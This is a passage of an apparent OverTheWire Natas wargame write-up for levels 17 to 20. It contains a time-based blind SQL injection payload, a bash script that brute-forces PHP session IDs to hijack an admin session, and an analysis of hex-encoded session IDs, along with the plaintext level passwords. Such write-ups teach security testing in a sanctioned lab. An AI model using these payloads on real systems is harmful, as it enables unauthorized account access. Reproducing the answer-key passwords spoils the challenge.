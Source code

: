 ```sql
username=natas18" AND IF(password LIKE BINARY '$pref%', SLEEP(4),0) OR username=" #
```
`OR username="` is used to "close" the quotes that the server used. We check the response time from the server, and if it is greater that 4 seconds then we got a match, and we move to the next char.

Password: `6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ`

## Level 18 → 19
The website asks for an admin user login in order to give the next password. Looking at the source code, we can see that the website is using a `PHP session` to login.

### PHP Session Hijacking Attack
A `PHP session hijacking attack` occurs when an attacker steals a victim's session ID (usually stored in a cookie) and uses it to impersonate the victim on a web application. Since PHP uses session IDs to identify logged-in users, obtaining a valid session ID lets the attacker bypass authentication without needing a password. This can happen through insecure cookie handling, `XSS` (cross-site scripting), or sniffing network traffic over unencrypted connections. Once the attacker sets the stolen session ID in their browser or HTTP requests, they gain access to the victim’s account as if they were legitimately logged in.

We can see in the source code that the `PHP session ID` is just a number between 1 and 640. So we can brute force over all the session IDs and hopefully one of them is an active session of an admin.
```bash
#!/bin/bash
url="http://natas18.natas.labs.overthewire.org"
credentials="natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ"

for i in {1..640}; do
	response=$(curl -X POST -s -u $credentials -d "username=x&password=y" --cookie "PHPSESSID=$i" $url);
	
	echo "$i: $(echo $response | grep "Password")"
done
```
We start scanning the `PHP session` IDs from 1, and by the 119th ID we get an admin access and the username (`natas19`) and password are revealed.

Password: `tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr`

## Level 19 → 20
This level is similar to the previous level, but session IDs are not sequental. We need to understand how the session IDs are given, so we first get our own by sending `username` as `admin` with a random password. We get the ID `3132382d61646d696e`, which looks like a hex value. We should get more values to try and find a pattern.
```
3332322d61646d696e
3332362d61646d696e
3231332d61646d696e
```
We can see a clear pattern, where the first 3 bytes are between 30 and 39 and the rest is `2d61646d696e`. If we decode it as `URL encoding`, we find out the pattern; It contains random 3 digits, then a separator `-` and then the username. for example, `3132382d61646d696e` is `128-admin`.
